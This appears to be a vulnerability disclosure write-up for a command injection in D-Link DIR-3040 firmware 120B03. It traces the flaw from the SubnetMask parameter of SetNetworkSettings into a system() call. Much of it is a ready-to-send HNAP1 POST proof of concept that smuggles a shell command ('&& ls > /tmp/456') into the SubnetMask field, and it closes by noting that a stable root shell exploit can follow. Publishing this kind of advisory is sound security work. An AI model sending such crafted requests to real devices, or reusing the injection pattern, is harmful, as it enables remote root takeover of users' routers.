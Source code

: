 # D-link DIR3040_A1_FW120B03.bin Command injection vulnerability

## Overview

- Manufacturer's website information：https://www.dlink.com/
- Firmware download address ：https://tsd.dlink.com.tw/


A problem was found on the D-Link DIR-3040 device with firmware 120B03. This problem is a command injection that allows remote attackers to execute arbitrary code and obtain a root shell. Command injection vulnerabilities allow attackers to execute arbitrary operating system commands via a crafted/HNAP1 POST request.


## Vulnerability details

DIR-3040 prog.cgi  Keyword api SetNetworkSetting.

![](../img/Snipaste_2022-10-18_14-52-49.png)

The program obtains the content through the / setnetworksettings / SubnetMask parameter and passes it to __s

![](../img/Snipaste_2022-10-18_14-53-36.png)



Then __s formats the matched content into acStack196 through the sprintf function, and finally executes the content in acStack196 through the system function. There is a command injection vulnerability

##  POC

1. Attack with the following POC attacks

```xml
POST /HNAP1/ HTTP/1.1
Host: 192.168.0.1:7018
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:98.0) Gecko/20100101 Firefox/98.0
Accept: text/xml
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: text/xml
SOAPACTION: "http://purenetworks.com/HNAP1/SetNetworkSettings"
HNAP_AUTH: 3C5A4B9EECED160285AAE8D34D8CBA43 1649125990491
Content-Length: 632
Origin: http://192.168.0.1:7018
Connection: close
Referer: http://192.168.0.1:7018/Network.html
Cookie: SESSION_ID=2:1556825615:2; uid=TFKV4ftJ

<?xml version="1.0" encoding="UTF-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
<soap:Body>
<SetNetworkSettings xmlns="http://purenetworks.com/HNAP1/">
	<IPAddress>192.168.5.1</IPAddress>
	<SubnetMask>&& ls > /tmp/456 &&echo 1</SubnetMask>
	<DeviceName>dlinkrouter</DeviceName>
	<LocalDomainName></LocalDomainName>
	<IPRangeStart>1</IPRangeStart>
	<IPRangeEnd>254</IPRangeEnd>
	<LeaseTime>10080</LeaseTime>
	<Broadcast>false</Broadcast>
	<DNSRelay>true</DNSRelay>
</SetNetworkSettings>
</soap:Body>
</soap:Envelope>
```

Finally, you can write exp, which can achieve a very stable effect of obtaining the root shell